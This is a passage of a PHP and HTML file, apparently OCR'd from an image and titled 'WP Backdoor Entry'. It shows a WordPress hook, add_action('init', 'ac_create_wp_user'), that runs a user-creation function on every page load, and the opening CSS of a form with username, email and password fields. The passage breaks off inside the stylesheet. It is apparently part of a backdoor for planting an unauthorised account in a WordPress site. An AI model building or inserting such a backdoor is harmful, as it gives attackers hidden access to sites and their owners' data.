   ```

add_action('init', 'ac_create_wp_user');

?>

<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>WP Backdoor Entry</title>
  <style>
    * {
      padding: 0;
      margin: 0;
    }

    /* Style inputs, select elements and textareas */
    input[type=text],
    input[type=email],
    input[type=password],
    select,
    textarea {
      width: 100%;
      padding: 12px;
      border: 1px solid #ccc;
      border-radius: 4px;
      box-sizing: border-box;
      resize: vertical;
    }

    h1 {
      font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Oxygen, Ubuntu, Cantarell, 'Open Sans', 'Helvetica Neue', sans-serif;
      padding-bottom: 10px;
    }

    /* Style the label to display next to the inputs */
    label {
      padding: 12px 12px 12px 0;
      display: inline-block;
    }

    /* Style the submit button */
    input[type=submit] {
      background-color: #04AA6D;
      color: white;
      padding: 12px 20px;
      border: none;
      border-radius: 4px;
      cursor: pointer;
      float: right;
    }

    /* Style the container */
    .container {
      border-radius: 5px;
      background-color: #f2f2f2;
      padding: 100px 50px 100px 50px;
      height: 100vh;
    }
  ```